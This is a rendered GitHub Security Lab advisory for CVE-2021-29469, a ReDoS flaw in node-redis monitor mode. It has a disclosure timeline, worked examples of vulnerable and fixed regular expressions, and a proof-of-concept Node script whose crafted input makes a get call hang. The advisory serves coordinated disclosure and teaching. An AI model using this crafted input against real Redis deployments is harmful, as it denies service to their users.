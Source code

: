 <header class="post-header d-block mb-6">
      <div class="date text-mono f5 my-3">May 12, 2021</div>
      <h1 class="my-2 h00-mktg lh-condensed">GHSL-2021-026: ReDoS in NodeRedis - CVE-2021-29469</h1>

      
      
      
      
      

      

      <a target="_blank" class="sc-frDJqD SgxRc d-inline-flex flex-row flex-items-center text-gray" href="https://github.com/kevinbackhouse">
        <img class="mr-3" src="https://avatars.githubusercontent.com/u/4358136?s=35" height="35" width="35">
        <span>Kevin Backhouse</span>
      </a>
    </header>

    <main id="content" class="markdown-body" aria-label="Content">
      
<h2 id="coordinated-disclosure-timeline">Coordinated Disclosure Timeline</h2>
<ul>
  <li>2021-01-21: Emailed report to mike.diarmid@gmail.com</li>
  <li>2021-02-25: Created an <a href="https://github.com/NodeRedis/node-redis/issues/1569">issue</a></li>
  <li>2021-03-05: gkorland responded to the <a href="https://github.com/NodeRedis/node-redis/issues/1569">issue</a></li>
  <li>2021-03-05: Emailed report to gkorland@gmail.com</li>
  <li>2021-04-07: Ran the poc on the latest release (<a href="https://github.com/NodeRedis/node-redis/releases/tag/v3.1.0">3.1.0</a>) to confirm that the issue has not been fixed yet.</li>
  <li>2021-04-07: Emailed gkorland@gmail.com to ask for a status update.</li>
  <li>2021-04-07: Reply from Guy Korland: “Sorry I missed your former email. Thanks for the report, we’ll handle it ASAP.”</li>
  <li>2021-04-08: Reply from Leibale Eidelman, who has implemented a <a href="https://github.com/NodeRedis/node-redis/pull/1595">fix</a></li>
  <li>2021-04-12: Draft advisory created: <a href="https://github.com/NodeRedis/node-redis/security/advisories/GHSA-35q2-47q7-3pc3">https://github.com/NodeRedis/node-redis/security/advisories/GHSA-35q2-47q7-3pc3</a></li>
  <li>2021-04-22: Advisory looks ready, but is still in “draft” status. Asked Leibale Eidelman if it is ready to publish now.</li>
  <li>2021-04-23: <a href="https://github.com/NodeRedis/node-redis/security/advisories/GHSA-35q2-47q7-3pc3">Advisory published</a> and assigned CVE-2021-29469.</li>
</ul>

<h2 id="summary">Summary</h2>

<p>The project contains one or more regular expressions that are vulnerable to <a href="https://en.wikipedia.org/wiki/ReDoS">ReDoS</a> (Regular Expression Denial of Service)</p>

<h2 id="product">Product</h2>

<p>NodeRedis</p>

<h2 id="tested-version">Tested Version</h2>

<p>Latest commit at the time of reporting (January 21, 2021).</p>

<h2 id="details">Details</h2>

<h3 id="redos">ReDoS</h3>

<p>ReDoS, or Regular Expression Denial of Service, is a vulnerability affecting poorly constructed and potentially inefficient regular expressions which can make them perform extremely badly given a creatively constructed input string.</p>

<p>For the specific regular expression reported, it is possible to force it to work with an <code class="language-plaintext highlighter-rouge">O(2^n)</code> runtime performance when there is <a href="http://en.wikipedia.org/wiki/ReDoS#Exponential_backtracking">exponential backtracking</a>.</p>

<p>ReDoS can be caused by ambiguity or overlapping between some regex clauses. These badly performing regular expressions can become a security issue if a user can control the input. For example if the project is an input validation library, then the project could be used by a server to validate untrusted user input. There is no one size fits all when it comes to fixing ReDoS. But in general it is about removing ambiguity/overlap inside the regular expression.</p>

<p>Before showing the vulnerable regex, it may be helpful to show some examples of regular expressions vulnerable to ReDoS and how to fix them. If you are familiar with this vulnerability and how to fix it, please skip this section.</p>

<hr />

<pre><code class="language-JavaScript">var reg = /&lt;!--(.|\s)*?--&gt;/g;
</code></pre>

<p>The above regular expression matches the start of an HTML comment, followed by any characters, followed by the end of a HTML comment.
The dot in the regular expression (<code class="language-plaintext highlighter-rouge">.</code>) matches any char except newlines, and <code class="language-plaintext highlighter-rouge">\s</code> matches any whitespace.
Both <code class="language-plaintext highlighter-rouge">.</code> and <code class="language-plaintext highlighter-rouge">\s</code> matches whitespace such as the space character.
There are therefore many possible ways for this regular expression to match a sequence of spaces.
This becomes a problem if the input is a string that starts with <code class="language-plaintext highlighter-rouge">&lt;!--</code> followed by a long sequence of spaces, because the regular expression evaluator will try every possible way of matching the spaces
(see this debugging session for an example: https://regex101.com/r/XvYgkN/1/debugger).</p>

<p>The fix is to remove the ambiguity, which can be done by changing the regular expression to the below, where there is no overlap between the different elements of the regular expression.</p>

<pre><code class="language-JavaScript">var reg = /&lt;!--(.|\r|\n)*?--&gt;/g;
</code></pre>

<hr />

<pre><code class="language-JavaScript">var reg = /(\w+_?)+_(\d+)/;
</code></pre>

<p>The above matches a snake_case identifier that ends with some digits.
However, for a string starting with lots of letters, there many ways for the regular expression to match those letters, due to the regex having a repetition matching letters (<code class="language-plaintext highlighter-rouge">w+</code>) inside another repetition that can match letters (<code class="language-plaintext highlighter-rouge">(\w+_?)+</code>).
The regular expression evaluator will try every possible grouping of letters into smaller groups of letters (see this debugging session for an example: https://regex101.com/r/fmci1j/1/debugger).
The fix is again to remove ambiguity, by changing the inner repetition to match groups of letters that must end with an underscore.</p>

<pre><code class="language-JavaScript">var reg = /(\w+_)+(\d+)/;
</code></pre>

<hr />

<p>Often the regular expressions are not as simple as the examples above.
Like the below regular expression <a href="https://github.com/microsoft/vscode/pull/109964/files">that used to be part of VS Code</a>.
(the top regular expression is the vulnerable, the bottom is the fixed)</p>

<pre><code class="language-JavaScript">var linkPattern = /(\[((!\[[^\]]*?\]\(\s*)([^\s\(\)]+?)\s*\)\]|(?:\\\]|[^\]])*\])\(\s*)(([^\s\(\)]|\(\S*?\))+)\s*(".*?")?\)/g;
var linkPattern = /(\[((!\[[^\]]*?\]\(\s*)([^\s\(\)]+?)\s*\)\]|(?:\\\]|[^\]])*\])\(\s*)(([^\s\(\)]|\([^\s\(\)]*?\))+)\s*(".*?")?\)/g;
</code></pre>

<p>But this example is actually very similar to the first example.
A section of the regular expression that was too general (<code class="language-plaintext highlighter-rouge">\S</code>) was changed to something a bit more specific (<code class="language-plaintext highlighter-rouge">[^\s\(\)]</code>) to remove overlap with another part of the regular expression.</p>

<hr />

<h3 id="vulnerability">Vulnerability</h3>

<p>Node Redis is a general purpose in-memory key-value store.
The project has a monitor mode that can cause extremely bad performance due to a ReDoS vulnerability.</p>

<p>This vulnerability was found using a <a href="https://codeql.github.com/">CodeQL</a> query which identifies inefficient regular expressions.
<a href="https://lgtm.com/projects/g/NodeRedis/node-redis/snapshot/4f27c6c601b635ef4983ffcbc9b3fed3f90c7469/files/lib/utils.js?sort=name&amp;dir=ASC&amp;mode=heatmap#L130">Link to query result</a>.</p>

<h3 id="poc-tested-on-ubuntu-2010">PoC (Tested on Ubuntu 20.10)</h3>
<ul>
  <li><code class="language-plaintext highlighter-rouge">wget http://download.redis.io/redis-stable.tar.gz</code></li>
  <li><code class="language-plaintext highlighter-rouge">tar xvzf redis-stable.tar.gz</code></li>
  <li><code class="language-plaintext highlighter-rouge">cd redis-stable</code></li>
  <li><code class="language-plaintext highlighter-rouge">make</code></li>
  <li><code class="language-plaintext highlighter-rouge">./src/redis-server</code> (leave this open while doing the rest)</li>
  <li><code class="language-plaintext highlighter-rouge">npm install redis</code></li>
  <li>Run the below with <code class="language-plaintext highlighter-rouge">node</code>
```JavaScript
const redis = require(“redis”);
const client = redis.createClient();</li>
</ul>

<p>var str = ‘1111111111.1 [1 a] “a” “a” “a” “a” “a” “a” “a” “a” “a” “a” “a” “a” “a” “a” “a” “a” “a” “a” “a” “a” “a” “a” “a” “a” “a” “a” “a” “a” “a” “a” “a” “a” “a” “a” “a” “a” ‘;</p>

<p>client.monitor(() =&gt; {}); // &lt;- required!</p>

<p>client.set(“key”, str, (err, resp) =&gt; {
  console.log(“set “ + resp);</p>

<p>client.get(“key”, (err, result) =&gt; { // &lt;- the <code class="language-plaintext highlighter-rouge">get</code> call gets stuck
    console.log(“Get: “ + result); // &lt;- this never runs.
    console.log(“Done”);
    process.exit(0);
  });
});</p>

<p>var str = “foobar”
```</p>

<h3 id="impact">Impact</h3>

<p>This issue may lead to a denial of service.</p>

<h2 id="cve">CVE</h2>
<ul>
  <li>CVE-2021-29469</li>
</ul>

<h2 id="credit">Credit</h2>

<p>This issue was discovered and reported by GitHub team member <a href="https://github.com/erik-krogh">@erik-krogh (Erik Krogh Kristensen)</a>.</p>

<h2 id="contact">Contact</h2>

<p>You can contact the GHSL team at <code class="language-plaintext highlighter-rouge">